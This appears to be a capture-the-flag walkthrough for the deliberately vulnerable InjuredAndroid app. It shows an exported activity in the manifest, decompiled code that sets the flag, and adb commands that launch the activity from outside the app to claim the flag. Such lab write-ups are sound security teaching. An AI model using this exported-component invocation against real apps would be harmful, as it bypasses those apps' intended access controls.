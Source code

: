 Activities in android are defined in _AndroidManifest.xml_ .

```xml
<activity android:name="b3nac.injuredandroid.b25lActivity" android:exported="true"/>
```

As you see above, activity **b3nac.injuredandroid.b25lActivity** can be invoked by an external application because **android:exported** attribute is set to true.

For exploitation of the above issue we will use adb. First, we use adb to list installed packages and grep the application of our interest using grep utility.

```bash
vx@archie:~$ adb shell pm list packages | grep injuredandroid
package:b3nac.injuredandroid
```

**What happens when invoke b25lActivity class activity?**

When b25lActivity activity is invoked by an external application, it sets flag2 color to green in the FlagsOverview activity as illustrated in the code below.

```java
/* loaded from: classes.dex */
public final class b25lActivity extends ActivityC0453c {
    /* access modifiers changed from: protected */
    @Override // androidx.appcompat.app.ActivityC0453c, androidx.fragment.app.ActivityC0797d, androidx.activity.ComponentActivity, androidx.core.app.ActivityC0714e, android.app.Activity
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(R.layout.activity_b25l);
        ApplicationC1492j.f4506j.m4062a(this);
        new FlagsOverview().m4082M(true);
        new ApplicationC1492j().m4065b(this, "flagTwoButtonColor", true);
    }
}
```

Invoke the activity b25lActivity using adb. Alternative method of invoking exported activities is by creating an android application thats starts the target`s activity.

```bash
vx@archie:~$ adb shell am start  -n b3nac.injuredandroid/.b25lActivity
Starting: Intent { cmp=b3nac.injuredandroid/.b25lActivity }
```

When activity two is started successfully through an external application, we are rewarded with a flag.

